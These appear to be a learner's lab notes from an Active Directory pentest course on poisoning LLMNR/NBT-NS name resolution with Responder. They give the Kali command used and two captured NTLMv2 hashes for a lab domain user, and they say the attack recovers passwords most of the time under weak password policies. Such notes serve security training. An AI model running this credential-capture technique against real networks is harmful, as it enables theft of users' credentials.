

Command to run in the kali linux
┌──(root㉿kali)-[/home/kali]
└─# responder -I eth0 -dwv
if we want to see an hash again than we have to use v (i.e. for verbosity)


[SMB] NTLMv2-SSP Client : ::ffff:192.168.205.138
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash : fcastle::MARVEL:69f87bddf966e9e3:EBDB0A0F13793A7005553AD8D7EB53B1:010100000000000080D5F8FBD24DD9010A450482AA4D54D7000000000200080054004F005000340001001E00570049004E002D005900410052005300440046005100430030004300580004003400570049004E002D00590041005200530044004600510043003000430058002E0054004F00500034002E004C004F00430041004C000300140054004F00500034002E004C004F00430041004C000500140054004F00500034002E004C004F00430041004C000700080080D5F8FBD24DD901060004000200000008003000300000000000000000000000002000007A5CAB3CEEA5F27492DB4A086E9E96672D22C44464C1281423B7301FE94D11670A001000000000000000000000000000000000000900280063006900660073002F003100390032002E003100360038002E003200300035002E003100320038000000000000000000
[SMB] NTLMv2-SSP Client : ::ffff:192.168.205.138
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash : fcastle::MARVEL:20d94a54c5ac02f4:67458DFFF18444CFF4DE40A63438157E:010100000000000080D5F8FBD24DD901822665151CAF229C000000000200080054004F005000340001001E00570049004E002D005900410052005300440046005100430030004300580004003400570049004E002D00590041005200530044004600510043003000430058002E0054004F00500034002E004C004F00430041004C000300140054004F00500034002E004C004F00430041004C000500140054004F00500034002E004C004F00430041004C000700080080D5F8FBD24DD901060004000200000008003000300000000000000000000000002000007A5CAB3CEEA5F27492DB4A086E9E96672D22C44464C1281423B7301FE94D11670A001000000000000000000000000000000000000900280063006900660073002F003100390032002E003100360038002E003200300035002E003100320038000000000000000000
70% of the time running this attack will get the password if they are using poor password policy.